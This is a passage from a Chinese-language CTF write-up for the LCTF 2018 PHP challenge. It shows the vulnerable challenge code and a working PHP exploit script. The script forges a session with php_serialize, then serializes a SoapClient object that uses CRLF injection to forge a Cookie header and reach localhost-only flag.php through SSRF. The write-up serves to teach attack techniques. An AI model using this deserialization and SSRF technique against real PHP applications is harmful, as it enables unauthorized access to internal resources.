 **即可触发漏洞**

------

知识点就讲到这里，接下去来分析一下题目

```php
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET['f'], $_POST);  //参数二的位置固定为 $_POST 数组，我们很容易便想到利用 extract 函数进行变量覆盖，以便配合后续利用
session_start();
if (isset($_GET['name'])) {
    $_SESSION['name'] = $_GET['name'];
}   //存在 session 伪造漏洞，我们可以考虑是否可以包含 session 文件或者利用 session 反序列化漏洞
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
?>
array(0) { }


//flag.php  (扫目录扫到的)
only localhost can get flag!session_start();
echo 'only localhost can get flag!';
$flag = 'LCTF{*************************}';
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){
       $_SESSION['flag'] = $flag;
   }
only localhost can get flag!
```

分析下代码，flag.php 文件中告诉我们，只有 127.0.0.1 请求该页面才能得到 flag ，所以这明显又是考察 SSRF 漏洞，这里我们便可以利用 SoapClient 类的 __call 方法来进行 SSRF

第一步：由于 PHP 中的原生 SoapClient 类存在 CRLF 漏洞，所以我们可以伪造任意 header ，构造 **SoapClient** 类，并用php_serialize引擎进行序列化，存入session

> **PHP 7 中 session_start () 函数可以接收一个数组作为参数，可以覆盖 php.ini 中 session 的配置项。这个特性也引入了一个新的 php.ini 设置（session.lazy_write）**

我们可以利用回调函数，通过给f传参，值为session_start，然后post提交 `array('serialize_handler'=>'php_serialize')`

即达到**session_start(array('serialize_handler' => 'php_serialize'))** ，将会根据php7特性设置session.serialize_handler=php_serialize。而又因为session是可控的，可以通过传入name值，任意伪造。这里就想到name传入的是序列化值了，序列化exp

```php
<?php
$target='http://127.0.0.1/flag.php';
$b = new SoapClient(null,array('location' => $target,
    'user_agent' => "npfs\r\nCookie:PHPSESSID=123456\r\n",
    'uri' => "http://127.0.0.1/"));

$se = serialize($b);
echo "|".urlencode($se);

//注意下，这个脚本想要执行，需要将php.ini里的 php_soap.dll 前面的分号去掉
```
